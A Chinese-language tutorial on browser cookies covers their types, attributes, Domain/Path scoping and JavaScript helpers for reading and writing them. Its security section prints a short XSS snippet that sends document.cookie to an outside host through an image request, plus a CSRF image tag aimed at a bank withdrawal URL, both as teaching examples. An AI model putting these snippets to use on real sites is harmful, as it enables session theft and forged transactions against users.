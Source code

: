 ## cookie 的分类

### session cookie

session cookie 没有过期时间，当浏览器关闭后就消失了，浏览器将没有设置过期时间的 cookie 作为 session cookie 来处理。

### Persistent cookie

Persistent cookie(意为：持久 cookie),这类 cookie 有一个明确的过期时间，在这段时间里面访问 cookie 归属的网站的时候都会携带 cookie ，通常用 cookie 来存储一些用户的访问信息，比如保存用户的登录状态，用户不必每次访问网站都进行登录。

### Secure cookie

Secure cookie ，这类 cookie 只会在加密传输的情况下携带，比如通过 HTTPs 传输的时候。在通过 HTTP 传输的时候，不会携带设置有 secure 标记的 cookie。

### HttpOnly cookie

当一个 cookie 被设置为 httpOnly 的以后，这个 cookie 不能被 javascript 这样的脚本语言拿到，只能通过 HTTP 和 HTTPs 传输。


### Third-party cookie

cookie 的 domain 属性和浏览器地址栏中 domain 一致的 cookie 叫做 first-party cookie， 第三方 cookie 就是其 domain 属性不同于 浏览器地址栏中的 domain 的，这类 cookie 通常是属于第三方广告商的，他们会记录用户的访问习惯，和浏览历史，以此做到准确投放广告。

对于其中的原理，可以举个例子说明：

当你访问 `a.example.com` 这个网站的时候，这个网站中引用了广告商 `ad.com` 的广告，当广告内容被下载后，广告提供商的脚本会设置一个属于 ad.com 的 cookie 。下次当你访问 `b.example.com` 的时候，这个网站的广告也是 `ad.com` 提供的，此时向 `ad.com` 请求广告内容的时候就会携带上次访问 `a.example.com` 的时候设置的 cookie 。

对于现代浏览器都提供了禁止第三方 cookie 的选项。  

## cookie 的组成

cookie 由一下几个部分组成：

+ name
+ value
+ 其他属性

cookie 中 name 和 value 不能有 `, ; =` 以及空格 ，因为这几个符号是用来分隔 cookie 中的名和值的。如要包含，则要进行字符转译。在 javascript 中可以使用 `encodeURIComponent` 来完成。

对于服务器要设置 cookie 只需要在 HTTP 响应头部中使用 `Set-Cookie: token=324` 这样的方式就可以了。对于浏览器可以使用 `document.cookie="name=xiaowang";domain="example.com"` 就可以了。

### cookie 的注意事项

#### Domain 和 Path

域名和路径定义了一个 cookie 的可见范围，它告诉浏览器这个 cookie 的归属范围。出于安全原因， domain 只能设置为当前域名的上层域名，比如在 `example.com` 下就不能把 cookie 的 domain 设置为 `a.example.com` ，而 `a.example.com`可以设置 cookie 的 domain 为 `example.com`

对于 path ，如果一个 cookie 的 path 为 `/doc` 那么在 ``/doc/` 下面的所有页面都能访问到这个 cookie （前提是 domain 也是满足要求）

#### 跨站脚本 - cookie 盗窃

一个 web 页面中可以包含来自其他站点的 js 脚本，而这些脚本是可以访问到该网站下的 cookie 的，这种情况下这些脚本就可能将 cookie 内容发送出去。比如采用下面方法，将 cookie 发送给 www.foo.com

```javascript
var img = document.createElement(‘img’);
img.src = ‘www.foo.com?’+ ‘text=’ + escape(document.cookie);
```

#### 跨站伪造请求

假如，Mallory 在访问 Bob 的博客的时候在他的博客中留言，其中包含如下内容：

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

如果 Bob 访问过银行的网站，且其中的 cookie 还没有过期，那么当 Bob 在访问自己的博客的时候，就会加载这幅图片，就会想 `bank.example.com` 发起请求，这样就形成了一次伪造的请求。

### 使用 javascript 操作 cookie

```javascript
util.setCookie = function(name, value, dayToLive, option) {
	var cookie = name + '=' + encodeURIComponent(value);
	if (typeof dayToLive === 'number') {
		cookie += ';max-age=' + (dayToLive * 24 * 60 * 60);
	}
	if (option) {
		for (var key in option) {
			if (key === 'path') {
				cookie += ';path=' + option[key];
			} else if (key === 'domain') {
				cookie += ';domain=' + option[key];
			} else if (key === 'secure') {
				cookie += ';secure';
			}
		}
	}
	document.cookie = cookie;
};

util.getCookie = function(name) {
	var cookie = document.cookie;
	var list = cookie.split(/;\s/);
	for (var i = 0; i < list.length; i++) {
		var pair = list[i].split('=');
		if (pair[0] == name) {
			return decodeURIComponent(pair[1]);
		}
	}
	return null;
};
```

需要注意的是：在  浏览器中 javascript 是拿不到 cookie 的过期时间，path，domain 等信息的，多条 cookie 之间是通过 `; ` 分号和空格分隔开来的，形如：`"name=xiaoming; age=21" ` 所以想要获取 cookie 首先需要使用 `/;\s/` 这样的正则将其分隔开来，然后对每一项，再使用 `=` 分割这样就得到了键值。最后在对结果进行一些转码。

而设置 cookie 的方法则是直接在 document.cookie 上面赋值即可，这不会影响到现有的 cookie （当年我觉得这样会覆盖掉现有的 cookie，其实是并不是这样的），对于 domain 和 path 等信息，可以设置但是不会被访问到。

